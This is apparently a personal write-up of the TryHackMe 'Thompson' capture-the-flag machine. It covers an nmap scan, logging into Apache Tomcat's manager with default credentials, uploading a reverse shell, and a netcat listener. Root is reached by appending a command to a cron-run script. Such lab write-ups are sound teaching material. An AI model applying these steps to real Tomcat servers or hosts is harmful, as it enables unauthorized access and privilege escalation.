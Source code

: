 ```yaml
---
title: TryHackMe - Thompson
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, ssh]
img_path: /assets/img/Thompson
image:
    path: 0.png
---
```


# Thompson
- boot2root machine for FIT and bsides guatemala CTF

**Tasks**
- read `user.tx`t and `root.txt`

### nmap

```sh
nmap -sV -sC -v 10.10.202.39
```

```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| 256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_ 256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open http Apache Tomcat 8.5.5
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### http_8080

` http://10.10.202.39:8080`

![](/assets/img/Thompson/1.png)  
On clicking server Status we got a prompt asking us to enter the username and the password.  
I tried “admin:admin” though it was wrong it took me to a page that gave me the default credentials.

username  `tomcat`
password  `s3cret`

Logged in successfully but there as not much in the Server status so i proceeded into the manager App
Here i found this:
![](/assets/img/Thompson/2.png)

Here am allowed to upload a file .
I made a reverse shell to get a shell hopefully.
![](/assets/img/Thompson/3.png)  

Uploaded it and run `nc`

```sh
nc -nlvp 1234
```
![](/assets/img/Thompson/4.png)

### privilege escalation
![](/assets/img/Thompson/5.png)  

Here we see a file that executes as root and feeds its output to the text file.    
let's check crontab for more info .  
![](/assets/img/Thompson/6.png)  

So this file runs as root and is scheduled .  
We shall add some commands to it .  

```sh
echo “cat /root/root.txt” >> id.sh
```

Now we wait for the root to run the file then we can read the flag from the text file.  
![](/assets/img/Thompson/7.png)

